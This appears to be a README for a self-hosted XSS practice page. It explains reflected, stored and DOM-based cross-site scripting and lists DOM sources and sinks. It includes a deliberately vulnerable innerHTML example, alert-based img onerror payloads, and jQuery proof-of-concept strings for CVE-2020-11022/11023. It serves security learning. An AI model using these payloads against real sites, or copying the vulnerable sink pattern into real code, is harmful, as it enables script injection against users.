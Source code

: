 # XSSPlayground

A simple place to learn XSS.
Made for myself to learn and to help others (please do use!)

## Disclaimer

This is a works in progress and will change over time. Learn what you can! 

## Updates

15/03/2021 - Added new layout, reworked xss 1,2,3.

## Screenshots

![](/assets/xss.png)

## Setup

Host php

1. Download the index.php file.
2. Add to your /var/www/html folder

*Tip: Make a new folder called 'xss' eg: /var/www/html/xss*

3. Run the php local server
*Have php installed so you can use php in terminal, then start a local server*

```
php -S 127.0.0.1:8000
```

4. Visit the page at http://127.0.0.1:8000/xss/index.php and start testing! 

Host xampp

1. Download the index.php file.
2. Add to your /var/www/html folder or /var/www/html/xss
3. Start xampp server, goto http://127.0.0.1/index.php or http://127.0.0.1/xss/index.php

---

# What is XSS?

Cross-site scripting (XSS) is a web security vulnerability. It that allows an attacker to compromise the interactions that users have with a vulnerable application. Allowing for various attack types (steal cookies, make user accounts (auth permitting) etc)

## Types of XSS

**Reflected XSS**

- This is when the exploits come from the current http request being made (reflected in response)
- [More Info](https://portswigger.net/web-security/cross-site-scripting/reflected)
 

**Stored XSS**

- When the exploits are stored in the servers database, accessed on page load or content loading on the website. 
- [More Info](https://portswigger.net/web-security/cross-site-scripting/stored)


**Dom based XSS**

- When the expliot is done on the client side ranter then the server. (change the webpage, inject hidden elements etc)
- [More Info](https://portswigger.net/web-security/cross-site-scripting/dom-based)


## Sources and Sinks (DOM XSS)

**Source** - where XSS payloads are injected to.

- document.url
- document.referrer
- location
- location.href
- location.search
- location.hash
- location.pathname


**Sink** - where XSS payloads get executed.

- element.innerHTML() 
- element.outerHTML() 
- eval() 
- setTimeout() 
- setInterval() 
- document.write() 
- document.writeLn() 

## DOM XSS - Example (Code review)

**Webpage code**
```
<!DOCTYPE html>
<html>
 <body>
  <script>
   var url_source = "Hi, " + decodeURIComponent(location.hash.split("#")[1]); // example source inject point
   var divElement = document.createElement("div");
   divElement.innerHTML = url_source; // Sink, execution point
   document.body.appendChild(divElement);
  </script>
 </body>
</html>
```

**GET Request (exploit)**

```
GET www.targeturl.com#<img src=x onerror"alert('DOM XSS')">
```


## jQuery PoC's  3.x (CVE-2020-11022/CVE-2020-11023)

```
$('#div').html('<img alt="<x" title="/><img src=x onerror=alert(1)>">');
```

```
http://xss-game.appspot.com/level3/frame#$('#tabContent').html("\"><img src=x onerror="alert(1)"")
```


    
## Great links (learn)

[Google Gruyer xss](http://google-gruyere.appspot.com/)

https://hackersonlineclub.com/cross-site-scripting-xss/

https://info.ninadmathpati.com/resources/web-app-pentest/cross-site-scripting-xss

https://portswigger.net/web-security/cross-site-scripting

https://www.veracode.com/security/xss

https://excess-xss.com/

https://hackertarget.com/xss-tutorial/

## Great links (challanges)

https://xss.pwnfunction.com/

https://xss.challenge.training.hacq.me/

http://xss-game.appspot.com/

http://www.sudo.co.il/xss/

## Great links (cheatsheets)

[Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

https://html5sec.org/

https://xss.by/


